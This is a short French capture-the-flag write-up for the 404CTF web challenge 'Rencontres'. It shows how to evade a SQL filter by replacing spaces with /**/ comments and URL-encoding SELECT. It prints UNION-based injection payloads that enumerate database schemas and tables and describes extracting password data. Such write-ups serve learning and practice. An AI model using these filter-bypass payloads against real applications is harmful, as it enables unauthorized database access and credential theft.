 ```yaml
---
title: CTFs | 404CTF | Web | Le braquage | Rencontres
author: BatBato
date: 2022-11-07
categories: [CTFs, 404CTF, Web, Rencontres]
tags: [404CTF, Web]
permalink: /CTFs/404CTF/Web/Le_braquage/Rencontres
---
```


# Rencontres

Nous devons ici faire face à certain filtres. Le ```SELECT``` et les espaces ne sont pas autorisé par exemple.
En faisant un peut de recherche on tombe sur le site de [PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters).</br>
Nous trouvons en bas de la page comment faire pour qu'il n'y ai pas d'espaces dans la commande (utilisation de /\*\*/) et remplaçons le ```SELECT``` par ```%53%45%4c%45%43%54```. Ce qui nous donne : ```'/**/UNION/**/%53%45%4c%45%43%54/**/1,2,schema_name/**/from/**/INFORMATION_SCHEMA.SCHEMATA/**/#```</br>
![image](https://user-images.githubusercontent.com/73934639/174613360-b6ba38e9-5bd0-4935-b81b-8233f3474a0b.png)
</br>


On se dirige vers la base de donnée ```RencontreVendeurs``` (```'/**/UNION/**/%53%45%4c%45%43%54/**/1,TABLE_NAME,TABLE_SCHEMA/**/from/**/INFORMATION_SCHEMA.TABLES/**/where/**/table_schema='RencontreVendeurs'#```) : </br>
![image](https://user-images.githubusercontent.com/73934639/174613769-e79bbba4-078a-4c44-97b1-acc8c94fe47a.png)

Nous n'avons plus qu'à récupérer les informations de la table password et de la table date.</br>
Commençons par la table ```password``` (même étaps que pour la partie 2 mais avec le filtres):</br>
![image](https://user-images.githubusercontent.com/73934639/174615601-2d23ce63-41bf-40fe-818d-56ca7516da88.png)
</br>

Il ne nous reste plus que la table ```Rdv``` :</br>
![image](https://user-images.githubusercontent.com/73934639/174616019-ddd40ae8-1a8e-4091-98de-f6efb8abc94e.png)
</br>

Nous avons maintenant tout ce qu'il nous faut.
